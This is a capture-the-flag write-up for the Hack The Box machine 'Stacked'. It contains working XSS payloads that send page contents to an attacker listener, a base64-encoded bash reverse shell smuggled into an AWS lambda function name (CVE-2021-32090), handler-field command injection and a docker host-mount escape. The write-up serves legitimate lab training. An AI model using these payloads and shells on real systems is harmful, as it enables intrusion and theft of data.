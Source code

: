 ## Stacked

https://app.hackthebox.com/machines/379

### XSS

Open 10.10.11.112:22
Open 10.10.11.112:80
Open 10.10.11.112:2376

Enumerate subdomains.
```
wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26

000001183:   200        444 L    1779 W     30268 Ch    "portfolio" 
```

<br>

The contact form on portfolio subdomain is vulnerable to XSS. To discover which field, we can use different payload on all of them.

Sending the payload below, we get "XSS detected!" response.
```
<script>document.location="http://10.10.14.2/subject.html"</script>
```

We try injecting XSS on other places, util we find the Referer header is vulnerable.
```
Referer: <script>document.location="http://10.10.14.2/referer"</script>
```

We can just redirect our file instead of the entire page.
```
<script src="http://10.10.14.2/xss.js"></script>
```

<br>

Since we don't know what to access, we can enumerate things.

This JS will send the current location of the page back to our server.
```js
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://10.10.14.2/" + document.location, false);    
exfilreq.send(); 
```

And we get this path:
```
10.10.11.112 - - [24/Aug/2021 11:42:04] "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1" 404 -
```

We can update the JS to pull the full page HTML, but we need to change the server to nc since python HTTP server doesn't handle POST requests.

```js
var exfilreq = new XMLHttpRequest();    
exfilreq.open("POST", "http://10.10.14.2:9001/", false);    
exfilreq.send(document.documentElement.outerHTML); 
```

With this, we enumerate dashboard.php. Let's get this page.
```js
var dashboardreq = new XMLHttpRequest();    
dashboardreq.onreadystatechange = function() {              
  if (dashboardreq.readyState == 4) {                       
    var exfilreq = new XMLHttpRequest();                    
    exfilreq.open("POST", "http://10.10.14.2:9001/", false);                                                      
    exfilreq.send(dashboardreq.response);                 
  }     
};    
dashboardreq.open('GET', '/dashboard.php', false);    
dashboardreq.send();  
```

We enumerate read-mail.php?id=1, so lets repeat to process to this changing the page name.

We have this on read-mail:
```
Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.
```

Let's add s3-testing.stacked.htb to /etc/hosts.

IppSec did the XSS like this:
```js
var target = "http://mail.stacked.htb/read-mail.php?id=1";
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.10.14.2:9001/", false);
req2.send(response);
```

<br>

#### Not for OSWE

We can download the docker-compose.yml that the page give to us.
```yaml
version: "3.3"

services:
  localstack:
    container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}"
    image: localstack/localstack-full:0.12.6
    network_mode: bridge
    ports:
      - "127.0.0.1:443:443"
      - "127.0.0.1:4566:4566"
      - "127.0.0.1:4571:4571"
      - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    environment:
      - SERVICES=serverless
      - DEBUG=1
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"
```

Localstack 0.12.6 has a XSS vulnerability that leads to RCE: [CVE-2021-32090](https://nvd.nist.gov/vuln/detail/CVE-2021-32090).

```
# Configure with region "us-east-1"
aws configure

# Create a js and zip with the content below
exports.handler =  async function(event, context) {
  console.log("EVENT: \n" + JSON.stringify(event, null, 2))
  return context.logStreamName
}

# Creating lambda
aws lambda create-function --endpoint=http://s3-testing.stacked.htb --function-name 'a' --zip-file fileb://index.zip --role DoesNotMatter --handler index.handler --runtime nodejs10.x

# Testing
aws lambda invoke --endpoint=http://s3-testing.stacked.htb --function-name a output
```

RCE.

```
echo -n 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzkwMDEgMD4mMQ==                              

aws lambda create-function --endpoint=http://s3-testing.stacked.htb --function-name 'c; echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzkwMDEgMD4mMQ== | base64 -d | bash' --zip-file fileb://index.zip --role DoesNotMatter --handler index.handler --runtime nodejs10.x

# Trigger the XSS putting this payload on the Referer:
<script>document.location="http://127.0.0.1:8080"</script>
```

#### Privilege Escalation
Create another reverse shell but with root now.
```
# Create a /tmp/shell.sh first
aws lambda create-function --function-name shell --handler 'index.handler;$(bash /tmp/shell.sh)' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --runtime nodejs12.x

aws lambda invoke --function-name shell --endpoint-url http://s3-testing.stacked.htb out.json
```

Privesc to escape the docker.
```
# Enumerate image
docker image ls

# Starts images
docker run -d -v /:/mnt -it 0601ea177088

# Enumerate process
docker ps

# Execute it
docker exec -it ed195f9534d9 bash

# Read flag
f2d6d176d679b9ba649069ad8934cc6c

# You can save a SSH key inside /mnt/root/.ssh to have bash access
```
